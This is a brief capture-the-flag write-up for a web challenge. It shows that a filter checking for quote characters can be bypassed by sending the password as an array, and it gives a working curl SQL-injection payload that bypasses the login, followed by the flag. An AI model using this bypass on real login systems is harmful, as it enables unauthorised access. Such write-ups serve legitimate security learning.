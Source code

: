 **Challenge**: https://missing-flavortext.dicec.tf/

**Source code**: https://dicegang.storage.googleapis.com/uploads/93b69e65a6c5be22a9910caaacd36da72733f475031f96e0082d3c6bf76e77de/index.js

It is possible to send an array instead of a string. So, we can bypass the filter.

Vulnerable code: `app.use(bodyParser.urlencoded({ extended: true }));`.

Filter: `if ([req.body.username, req.body.password].some(v => v.includes('\'')))`.

Payload:
```shell
curl -X POST "https://missing-flavortext.dicec.tf/login" -d "username=123&password[]=1'or '1'=='1"
```

**Flag**: dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
